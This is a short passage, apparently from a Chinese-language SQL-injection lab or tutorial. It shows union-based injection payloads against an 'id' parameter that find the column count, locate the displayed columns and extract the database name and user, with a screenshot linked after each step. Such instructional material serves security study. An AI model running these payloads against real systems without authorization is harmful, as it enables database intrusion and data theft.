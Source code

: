 判断当前表的字段

```
?id=-3' order by 6 --+
```

<img src="图片\Snipaste_2023-01-20_11-17-07.png" alt="Snipaste_2023-01-20_11-17-07" style="zoom:67%;" />

判断注入**显示数据**的位置，位置为 2 和 3

```
?id=-3' union select 1,2,3,4,5,6 --+
```

<img src="图片\Snipaste_2023-01-20_11-19-57.png" alt="Snipaste_2023-01-20_11-19-57" style="zoom:67%;" />

常规注入

```
?id=-3' union select 1,database(),user(),4,5,6 --+
```

<img src="图片\Snipaste_2023-01-20_11-23-11.png" alt="Snipaste_2023-01-20_11-23-11" style="zoom:67%;" />
